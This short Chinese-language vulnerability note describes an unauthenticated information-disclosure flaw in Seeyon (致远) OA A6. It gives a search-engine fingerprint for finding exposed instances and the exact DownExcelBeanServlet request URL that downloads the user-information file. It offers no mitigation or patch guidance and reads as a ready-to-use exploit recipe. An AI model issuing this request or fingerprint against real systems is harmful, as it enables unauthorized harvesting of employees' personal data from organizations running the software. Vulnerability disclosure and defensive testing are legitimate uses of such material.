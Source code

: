 # 致远OA A6 DownExcelBeanServlet 用户敏感信息泄露

## 漏洞描述

致远OA A6 存在某个未授权的接口导致任意访问者可下载OA中的用户信息

## 漏洞影响

<a-checkbox checked>致远OA A6</a-checkbox></br>

## 网络测绘

<a-checkbox checked>title="致远A8+协同管理软件.A6"</a-checkbox></br>

## 漏洞复现

访问如下URL即可跳转下载用户信息文件

```plain
/yyoa/DownExcelBeanServlet?contenttype=username&contentvalue=&state=1&per_id=0
```



![img](../../../.vuepress/public/img/zhiyuan-18.png)